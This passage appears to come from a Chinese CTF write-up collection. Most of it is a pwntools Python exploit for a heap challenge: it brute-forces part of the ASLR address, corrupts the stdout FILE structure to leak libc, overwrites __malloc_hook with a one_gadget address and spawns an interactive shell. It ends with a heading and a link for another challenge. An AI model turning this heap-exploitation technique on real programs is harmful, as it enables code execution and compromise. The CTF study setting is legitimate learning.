 ```python
	dele(7)
	cmd(3)
	p.recvuntil("sure?")
	p.send("0")
	
	add(0x68,"\x00"*0x68)	
	
	dele(7)
	add(0x68,"\x00"*0x68)
	dele(7)
	cmd(3)
	p.recvuntil("sure?")
	p.send("\x00"*0xe)
	guess = int(raw_input("guess?"))
	# guess = 7
	stdout = (guess << 12) | 0x760
	add(0x58,p16(stdout-0x10))
	dele(7)
	add(0x68,p16(heap+0x650))
	add(0x68,"\x00"*0x68)
	add(0x68,"\x00"*0x68)
	add(0x68,b"\x00"*0x10+p64(0xfbad1800)+p64(0)*3+b'\x00')
	p.recv(8)
	libc.address = u64(p.recv(8))-0x3b5890
	success('libc : '+hex(libc.address))
	dele(7)
	for i in range(13):
		cmd(3)
	cmd(3)
	p.recvuntil("sure?")
	p.send(p64(libc.symbols["__malloc_hook"]-0x23))
	
	add(0x68,"\x00"*0x68)
	add(0x68,b"\x00"*0x13+p64(libc.address+0xdf212))
	cmd(1)
	p.recvuntil("size:")
	p.sendline(str(0))
	p.interactive()
	
if __name__ == "__main__":
	libc = ELF("./libc.so.6",checksec=False)
	main(args["REMOTE"])
```

## lonely observer

**Hacking to the Gate!**

原文链接:[https://www.anquanke.com/post/id/193939#h3-9](https://www.anquanke.com/post/id/193939#h3-9)

记录下这有趣的一题（crtl c + crtl v
